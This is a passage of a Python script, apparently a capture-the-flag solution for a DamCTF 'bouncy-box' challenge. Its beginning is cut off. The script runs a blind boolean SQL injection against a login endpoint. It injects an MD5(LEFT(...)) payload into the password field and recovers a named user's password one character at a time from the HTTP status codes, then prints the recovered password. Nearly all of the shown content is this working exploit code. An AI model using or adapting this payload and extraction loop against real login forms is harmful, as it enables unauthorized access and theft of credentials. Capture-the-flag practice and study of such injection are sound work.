 ```
    letters = list(string.ascii_letters) + \
        list(string.digits) + ["_", "{", "}"]
    print("Trying letters {}".format(''.join(letters)))

    # user to attack
    attacked_user = "boxy_mcbounce"

    # list to save password chars
    final_psw = []

    # the password finish when no char match the next password char
    password_finished = False

    # len of the password
    founded_chars = len(final_psw)

    while(not password_finished):

        for l in range(len(letters)):

            c = letters[l]

            # the SQLi
            password_payload = "' OR MD5(LEFT((SELECT password FROM users WHERE username='boxy_mcbounce'),{}))=MD5('{}') AND '1'='1".format(
                founded_chars+1, ''.join(final_psw)+c)

            post_r = s.post("https://bouncy-box.chals.damctf.xyz/login",
                            json={"username": attacked_user, "password": password_payload, "score": 0})

            if post_r.status_code == 200:
                print(f"Founded char {c}")
                final_psw.append(c)
                founded_chars = len(final_psw)
                break

            # if we just can't login we receive code 403
            # otherwise it's an error code
            if post_r.status_code != 403:
                print(post_r.status_code)
                password_finished = True

    password = "".join(final_psw)  # B0UncYBouNc3
    print(f"Final password for user {attacked_user}: {password}.")
    print('gg')


if __name__ == "__main__":
    main()
```
